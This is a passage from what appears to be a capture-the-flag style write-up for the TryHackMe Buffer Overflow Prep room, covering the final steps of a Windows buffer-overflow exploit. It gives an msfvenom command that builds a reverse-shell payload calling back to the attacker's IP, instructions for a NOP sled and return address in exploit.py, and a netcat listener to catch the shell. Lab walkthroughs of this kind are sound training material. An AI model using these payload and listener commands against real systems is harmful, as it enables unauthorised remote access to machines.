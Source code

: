 > `msfvenom -p windows/shell_reverse_tcp LHOST=<Kali VPN IP> LPORT=4444 EXITFUNC=thread -b “LITTLE_ENDIAN_STRING” -f c`

We now have to modify our `exploit.py` script:

- Set the _rtn_ to the Little Endian String
- Set _padding_ to `"\x90" * 16`
- Set _payload_ to the msfvenom generated payload

## Get the Reverse Shell

We now just need to listen on port `4444` (the port we set in msfvenom), with _netcat_:

> `nc -lvnp 4444`

And the last thing: run the `exploit.py` script. And now we got a Reverse Shell!

## Credits

[TryHackMe](https://tryhackme.com/dashboard) for some inspiration and for the Buffer Overflow prep room. [vinayakagrawal95](https://vinayakagrawal95.medium.com/tryhackme-buffer-overflow-prep-overflow-1-fa843cc8582e) for his Medium post which helped me get through the first box and for some inspiration about the cheat sheet.
